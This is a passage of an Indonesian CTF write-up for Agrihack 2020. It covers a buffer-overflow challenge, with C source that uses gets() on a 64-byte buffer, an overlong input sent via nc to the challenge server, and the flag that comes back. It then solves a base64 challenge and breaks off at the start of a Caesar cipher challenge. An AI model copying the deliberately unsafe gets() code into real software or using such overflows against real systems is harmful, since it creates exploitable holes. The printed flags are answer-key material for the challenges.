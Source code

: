 # WriteUp-Agrihack-2020

## Binary Exploitation
## FLOW 1 (100 Pts)

Diberikan sebuah source code:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

//gcc flow1.c -m32 -fno-stack-protector -no-pie -o flow1

void logo(){
  puts("██╗     ██╗███╗   ██╗███████╗");
  puts("██║     ██║████╗  ██║╚══███╔╝");
  puts("██║     ██║██╔██╗ ██║  ███╔╝ ");
  puts("██║     ██║██║╚██╗██║ ███╔╝  ");
  puts("███████╗██║██║ ╚████║███████╗");
  puts("╚══════╝╚═╝╚═╝  ╚═══╝╚══════╝");
}

void setup(){
	setvbuf(stdin,0,2,0);
	setvbuf(stdout,0,2,0);
}


int main(int argc, char **argv)
{
  logo();
  setup();
  volatile int modified;
  char buffer[64];
  modified = 0;
  
  printf("Put some text: ");

  gets(buffer);

  if(modified != 0) {
      system("cat flag.txt");
  } else {
      printf("Try again?\n");
  }
}
```

Dan sebuah nc 52.187.65.2 17001.
Dari code kita tahu bahwa buffer overflow terjadi ketika data char lebih dari 64 byte, langsung saja kita input karakter lebih dari 64 byte

```
ilham@ilham-Acer:~$ nc 52.187.65.2 17001
██╗     ██╗███╗   ██╗███████╗
██║     ██║████╗  ██║╚══███╔╝
██║     ██║██╔██╗ ██║  ███╔╝ 
██║     ██║██║╚██╗██║ ███╔╝  
███████╗██║██║ ╚████║███████╗
╚══════╝╚═╝╚═╝  ╚═══╝╚══════╝
Put some text: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
agrihack{Toooooooooo_much_character_is_dangerous_LINZ_IS_HERE}
/home/ctf/run_challenge.sh: line 2:   853 Segmentation fault      (core dumped) ./chall
```

**flag: agrihack{Toooooooooo_much_character_is_dangerous_LINZ_IS_HERE}**

## Cryptography

## Basic64 (100 pts)
Diberikan file enc.txt dan dilihat isinya:
![image22](https://user-images.githubusercontent.com/66354919/140281216-b8237a0a-cfcb-4de1-8c99-9808ea6cd34b.png)
Karena hintnya adalah base64, langsung saja kita decode base64 tersebut
```
In [4]: import base64

In [5]: base64.b64decode("YWdyaWhhY2t7YmFzaWNfdG9fa25vd19iYXNlNjR9")
Out[5]: 'agrihack{basic_to_know_base64}'
```
sehingga flagnya: agrihack{basic_to_know_base64} 

## Introduction to Cipher_Series : ROMAN (120 pts)
Diberikan file caesar.png:
![image60](https://user-images.githubusercontent.com/66354919/140281378-d4b26a0b-1721-4c08-bfa6-8ab725a9da89.png)



